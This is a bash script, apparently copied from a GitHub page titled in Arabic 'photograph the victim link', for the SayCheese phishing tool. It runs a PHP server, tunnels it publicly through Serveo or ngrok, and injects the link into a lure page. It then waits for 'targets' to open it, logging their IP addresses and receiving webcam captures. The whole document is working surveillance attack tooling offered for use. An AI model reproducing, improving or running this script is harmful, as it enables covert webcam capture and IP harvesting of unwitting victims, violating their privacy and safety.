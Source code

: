 # hamo-ashraf
تصوير الضحيه لينك
#!/bin/bash
# SayCheese v1.1
# coded by: github.com/thelinuxchoice/saycheese

banner() {


printf "\e[1;92m  ____              \e[0m\e[1;77m ____ _                          \e[0m\n"
printf "\e[1;92m / ___|  __ _ _   _ \e[0m\e[1;77m/ ___| |__   ___  ___  ___  ___  \e[0m\n"
printf "\e[1;92m \___ \ / _\` | | | \e[0m\e[1;77m| |   | '_ \ / _ \/ _ \/ __|/ _ \ \e[0m\n"
printf "\e[1;92m  ___) | (_| | |_| |\e[0m\e[1;77m |___| | | |  __/  __/\__ \  __/ \e[0m\n"
printf "\e[1;92m |____/ \__,_|\__, |\e[0m\e[1;77m\____|_| |_|\___|\___||___/\___| \e[0m\n"
printf "\e[1;92m              |___/ \e[0m                                 \n"

printf " \e[1;77m v1.1 coded by github.com/thelinuxchoice/saycheese\e[0m \n"

printf "\n"


}

stop() {

checkngrok=$(ps aux | grep -o "ngrok" | head -n1)
checkphp=$(ps aux | grep -o "php" | head -n1)
checkssh=$(ps aux | grep -o "ssh" | head -n1)
if [[ $checkngrok == *'ngrok'* ]]; then
pkill -f -2 ngrok > /dev/null 2>&1
killall -2 ngrok > /dev/null 2>&1
fi

if [[ $checkphp == *'php'* ]]; then
killall -2 php > /dev/null 2>&1
fi
if [[ $checkssh == *'ssh'* ]]; then
killall -2 ssh > /dev/null 2>&1
fi
exit 1

}

dependencies() {


command -v php > /dev/null 2>&1 || { echo >&2 "I require php but it's not installed. Install it. Aborting."; exit 1; }
 


}

catch_ip() {

ip=$(grep -a 'IP:' ip.txt | cut -d " " -f2 | tr -d '\r')
IFS=$'\n'
printf "\e[1;93m[\e[0m\e[1;77m+\e[0m\e[1;93m] IP:\e[0m\e[1;77m %s\e[0m\n" $ip

cat ip.txt >> saved.ip.txt


}

checkfound() {

printf "\n"
printf "\e[1;92m[\e[0m\e[1;77m*\e[0m\e[1;92m] Waiting targets,\e[0m\e[1;77m Press Ctrl + C to exit...\e[0m\n"
while [ true ]; do


if [[ -e "ip.txt" ]]; then
printf "\n\e[1;92m[\e[0m+\e[1;92m] Target opened the link!\n"
catch_ip
rm -rf ip.txt

fi

sleep 0.5

if [[ -e "Log.log" ]]; then
printf "\n\e[1;92m[\e[0m+\e[1;92m] Cam file received!\e[0m\n"
rm -rf Log.log
fi
sleep 0.5

done 

}


server() {

command -v ssh > /dev/null 2>&1 || { echo >&2 "I require ssh but it's not installed. Install it. Aborting."; exit 1; }

printf "\e[1;77m[\e[0m\e[1;93m+\e[0m\e[1;77m] Starting Serveo...\e[0m\n"

if [[ $checkphp == *'php'* ]]; then
killall -2 php > /dev/null 2>&1
fi

if [[ $subdomain_resp == true ]]; then

$(which sh) -c 'ssh -o StrictHostKeyChecking=no -o ServerAliveInterval=60 -R '$subdomain':80:localhost:3333 serveo.net  2> /dev/null > sendlink ' &

sleep 8
else
$(which sh) -c 'ssh -o StrictHostKeyChecking=no -o ServerAliveInterval=60 -R 80:localhost:3333 serveo.net 2> /dev/null > sendlink ' &

sleep 8
fi
printf "\e[1;77m[\e[0m\e[1;33m+\e[0m\e[1;77m] Starting php server... (localhost:3333)\e[0m\n"
fuser -k 3333/tcp > /dev/null 2>&1
php -S localhost:3333 > /dev/null 2>&1 &
sleep 3
send_link=$(grep -o "https://[0-9a-z]*\.serveo.net" sendlink)
printf '\e[1;93m[\e[0m\e[1;77m+\e[0m\e[1;93m] Direct link:\e[0m\e[1;77m %s\n' $send_link

}


payload_ngrok() {

link=$(curl -s -N http://127.0.0.1:4040/api/tunnels | grep -o "https://[0-9a-z]*\.ngrok.io")
sed 's+forwarding_link+'$link'+g' saycheese.html > index2.html
sed 's+forwarding_link+'$link'+g' template.php > index.php


}

ngrok_server() {


if [[ -e ngrok ]]; then
echo ""
else
command -v unzip > /dev/null 2>&1 || { echo >&2 "I require unzip but it's not installed. Install it. Aborting."; exit 1; }
command -v wget > /dev/null 2>&1 || { echo >&2 "I require wget but it's not installed. Install it. Aborting."; exit 1; }
printf "\e[1;92m[\e[0m+\e[1;92m] Downloading Ngrok...\n"
arch=$(uname -a | grep -o 'arm' | head -n1)
arch2=$(uname -a | grep -o 'Android' | head -n1)
if [[ $arch == *'arm'* ]] || [[ $arch2 == *'Android'* ]] ; then
wget --no-check-certificate https://bin.equinox.io/c/4VmDzA7iaHb/ngrok-stable-linux-arm.zip > /dev/null 2>&1

if [[ -e ngrok-stable-linux-arm.zip ]]; then
unzip ngrok-stable-linux-arm.zip > /dev/null 2>&1
chmod +x ngrok
rm -rf ngrok-stable-linux-arm.zip
else
printf "\e[1;93m[!] Download error... Termux, run:\e[0m\e[1;77m pkg install wget\e[0m\n"
exit 1
fi

else
wget --no-check-certificate https://bin.equinox.io/c/4VmDzA7iaHb/ngrok-stable-linux-386.zip > /dev/null 2>&1 
if [[ -e ngrok-stable-linux-386.zip ]]; then
unzip ngrok-stable-linux-386.zip > /dev/null 2>&1
chmod +x ngrok
rm -rf ngrok-stable-linux-386.zip
else
printf "\e[1;93m[!] Download error... \e[0m\n"
exit 1
fi
fi
fi

printf "\e[1;92m[\e[0m+\e[1;92m] Starting php server...\n"
php -S 127.0.0.1:3333 > /dev/null 2>&1 & 
sleep 2
printf "\e[1;92m[\e[0m+\e[1;92m] Starting ngrok server...\n"
./ngrok http 3333 > /dev/null 2>&1 &
sleep 10

link=$(curl -s -N http://127.0.0.1:4040/api/tunnels | grep -o "https://[0-9a-z]*\.ngrok.io")
printf "\e[1;92m[\e[0m*\e[1;92m] Direct link:\e[0m\e[1;77m %s\e[0m\n" $link

payload_ngrok
checkfound
}

start1() {
if [[ -e sendlink ]]; then
rm -rf sendlink
fi

printf "\n"
printf "\e[1;92m[\e[0m\e[1;77m01\e[0m\e[1;92m]\e[0m\e[1;93m Serveo.net\e[0m\n"
printf "\e[1;92m[\e[0m\e[1;77m02\e[0m\e[1;92m]\e[0m\e[1;93m Ngrok\e[0m\n"
default_option_server="1"
read -p $'\n\e[1;92m[\e[0m\e[1;77m+\e[0m\e[1;92m] Choose a Port Forwarding option: \e[0m' option_server
option_server="${option_server:-${default_option_server}}"
if [[ $option_server -eq 1 ]]; then

command -v php > /dev/null 2>&1 || { echo >&2 "I require ssh but it's not installed. Install it. Aborting."; exit 1; }
start

elif [[ $option_server -eq 2 ]]; then
ngrok_server
else
printf "\e[1;93m [!] Invalid option!\e[0m\n"
sleep 1
clear
start1
fi

}


payload() {

send_link=$(grep -o "https://[0-9a-z]*\.serveo.net" sendlink)

sed 's+forwarding_link+'$send_link'+g' saycheese.html > index2.html
sed 's+forwarding_link+'$send_link'+g' template.php > index.php


}

start() {

default_choose_sub="Y"
default_subdomain="saycheese$RANDOM"

printf '\e[1;33m[\e[0m\e[1;77m+\e[0m\e[1;33m] Choose subdomain? (Default:\e[0m\e[1;77m [Y/n] \e[0m\e[1;33m): \e[0m'
read choose_sub
choose_sub="${choose_sub:-${default_choose_sub}}"
if [[ $choose_sub == "Y" || $choose_sub == "y" || $choose_sub == "Yes" || $choose_sub == "yes" ]]; then
subdomain_resp=true
printf '\e[1;33m[\e[0m\e[1;77m+\e[0m\e[1;33m] Subdomain: (Default:\e[0m\e[1;77m %s \e[0m\e[1;33m): \e[0m' $default_subdomain
read subdomain
subdomain="${subdomain:-${default_subdomain}}"
fi

server
payload
checkfound

}

banner
dependencies
start1

